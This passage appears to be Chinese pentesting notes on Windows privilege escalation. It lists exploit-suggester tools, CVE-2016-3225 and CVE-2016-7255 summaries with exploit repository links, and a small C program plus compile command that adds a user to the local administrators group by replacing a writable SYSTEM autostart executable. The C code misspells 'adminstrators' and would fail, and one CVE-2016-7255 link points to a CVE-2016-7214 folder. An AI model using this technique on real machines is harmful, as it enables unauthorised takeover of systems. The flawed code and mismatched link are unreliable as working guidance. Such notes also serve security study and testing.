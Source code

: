 **提权辅助工具**
- [windows 本地提权对照表](http://www.7kb.org/138.html)
- [提权辅助网页](https://i.hacking8.com/tiquan/)
- [Windows提权EXP在线搜索工具](http://blog.neargle.com/win-powerup-exp-index/)
- [BulletinSearch-微软官网提供的漏洞 excel 列表](http://download.microsoft.com/download/6/7/3/673E4349-1CA5-40B9-8879-095C72D5B49D/BulletinSearch.xlsx)
- [GDSSecurity/Windows-Exploit-Suggester](https://github.com/GDSSecurity/Windows-Exploit-Suggester) - 此工具将目标修补程序级别与 Microsoft 漏洞数据库进行比较,以便检测目标上可能缺少的修补程序.
- [bitsadmin/wesng](https://github.com/bitsadmin/wesng) - Windows Exploit Suggester
- [tengzhangchao/microsoftSpider](https://github.com/tengzhangchao/microsoftSpider) - 爬取微软漏洞信息,MS 对应的每个版本操作系统 KB 号以及补丁下载地址.
- [SecWiki/windows-kernel-exploits](https://github.com/SecWiki/windows-kernel-exploits) - Windows 平台提权漏洞集合
- [AonCyberLabs/Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) - 将目标的修补程序与微软的漏洞数据库进行比较，以检测目标的潜在缺失修补程序。
- [akabe1/windows_exploit_dowser](https://github.com/akabe1/windows_exploit_dowser) - 一个简单的工具，可以用来识别影响 Windows 操作系统的漏洞。
- [itm4n/PrivescCheck](https://github.com/itm4n/PrivescCheck) - Privilege Escalation Enumeration Script for Windows

**添加开机启动项**

useradd.c
```C
#include <stdlib.h>
int main ()
{
    int i;
    i=system ("net localgroup adminstrators lowpriv /add");
    return 0;
}
```
```
i586-mingw32msvc-gcc useradd.c -o useradd.exe
```
将 useradd.exe 传到目标机上,用 useradd.exe 去替换 everyone 完成控制且以系统权限开机自启的 exe,即可将用户 lowpriv 提升为管理员权限

查看一个程序的各个用户权限: `icacls xxx.exe`

**CVE-2016-3225 && MS16-075**
- 简介

    Windows SMB 服务器特权提升漏洞（CVE漏洞编号：CVE-2016-3225）当攻击者转发适用于在同一计算机上运行的其他服务的身份验证请求时，Microsoft 服务器消息块 (SMB) 中存在特权提升漏洞，成功利用此漏洞的攻击者可以使用提升的特权执行任意代码。若要利用此漏洞，攻击者首先必须登录系统。然后，攻击者可以运行一个为利用此漏洞而经特殊设计的应用程序，从而控制受影响的系统。

- POC | Payload | exp
    - [MS16-075](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-075)

**CVE-2016-7255 && MS16-135**
- 相关文章
    - [CVE-2016-7255：分析挖掘Windows内核提权漏洞](https://www.anquanke.com/post/id/85232)

- POC | Payload | exp
    - https://github.com/tinysec/public/tree/master/CVE-2016-7255
    - https://github.com/Al1ex/WindowsElevation/tree/master/CVE-2016-7214
